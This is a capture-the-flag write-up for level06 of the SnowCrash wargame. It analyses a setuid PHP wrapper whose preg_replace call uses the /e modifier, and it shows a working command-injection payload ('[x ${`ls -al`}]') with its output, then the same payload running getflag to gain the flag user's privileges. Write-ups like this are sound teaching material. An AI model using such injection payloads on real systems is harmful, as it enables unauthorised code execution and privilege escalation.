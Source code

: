# Level06
Ls into the working directory. 
There is one executable and one .php file.
The first executable takes one file as argument and looks like it just applies the level06.php to its argument and outputs the result.

    level06@SnowCrash:~$ cat level06.php

    #!/usr/bin/php
    <?php
    
    function y($m) { 
	    $m = preg_replace("/\./", " x ", $m); 
	    $m = preg_replace("/@/", " y", $m); return $m; 
	    }
	
    function x($y, $z) { 
	    $a = file_get_contents($y); 
	    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	    return $a; 
	    }
	
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

This PHP script reads the contents of a file and processes it through a series of regex.

it looks for patterns like `[x ...]` and replaces them with modified versions of the inner content.
-   It replaces periods (`.`) with `x` and `@` with `y` inside these patterns.
-   It then converts all square brackets to parentheses in the file content.
-   It prints the final modified content.

For instance:

    level06@SnowCrash:~$ echo "THIS IS A TEST : [x HELLO ... @@@]" > /tmp/testa
    level06@SnowCrash:~$ ./level06 /tmp/testa
    THIS IS A TEST : HELLO  x  x  x   y y y

    

## Security problem

The use of the `/e` modifier in `preg_replace` is highly insecure as it allows execution of arbitrary PHP code, which means that whatever is parsed is transformed into php code. This can lead to security vulnerabilities such as code injection. 

Good news for us...
For example :

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`ls -al`} ]' > /tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    PHP Notice:  Undefined variable: total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
     in /home/user/level06/level06.php(4) : regexp code on line 1
    TRYING THIS STUFF  

Now all we have do do is the same but with the getflag program, and we have our token.

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`getflag`} ]' > /tmp/test
